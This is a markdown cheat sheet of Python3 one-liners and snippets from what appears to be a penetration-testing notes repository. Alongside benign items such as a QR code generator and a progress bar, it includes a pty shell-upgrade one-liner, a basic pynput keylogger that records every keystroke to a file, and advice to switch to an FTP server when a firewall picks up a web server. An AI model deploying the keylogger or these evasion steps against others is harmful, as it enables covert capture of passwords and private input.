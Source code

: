 # Python3

**[Back to Command-Center](https://github.com/codetorok/command-center/blob/master/README.md)**

### One liners and quick scripts

* to spawn a shell: `python3 -c 'import pty;pty.spawn("/bin/bash")'`
* webservers: `python3 -m http.server 8080`
* if webserver is picked up by the firewall use ftp server: `python3 -m pyftpdlib -p 21 --write` and if you don't have it get it first with: `pip3 install pyftpdlib` and to log in just use the IP address of your ftp server: `ftp <ftp server IP>`

#### QRCode generator (Python3)

```
import qrcode

input_data = "https://google.com"
qr = qrcode.QRCode(version=1, box_size=10, border=5)
qr.add_data(input_data)
qr.make(fit=True)
img = qr.make_image(fill='black', back_color='white')
img.save('qrcode001.png')
```

#### progress bar (Python3)

```
for i in range(0, 51):
    time.sleep(0.1)
    sys.stdout.write("{} [{}{}]\r".format(i, '#' * i, "." * (50 - i)))
    sys.stdout.flush()
sys.stdout.write("\n")

```

#### printing and checking a usage form and switches (Python3)

```
if len(sys.argv) == 1:
    print("USAGE: python3 the_sys_module.py <code name>")
    print("No arguments, exiting...")
    sys.exit(9)
if sys.argv[1] == "tellmemore":
    print("Code name accepted..., exiting with exit code 0.")
else:
    print("Wrong code name, exiting with exit code 3.")
```
#### keylogger (basic)

```
from pynput.keyboard import Key, Listener
import logging

log_dir = ""

logging.basicConfig(filename=(log_dir + "keylogs.txt"), \
	level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()
```
#### Python3 FTP Server

* Simple to use: `python3 -m pyftpdlib` and just make sure you have pyftpdlib installed with pip3.
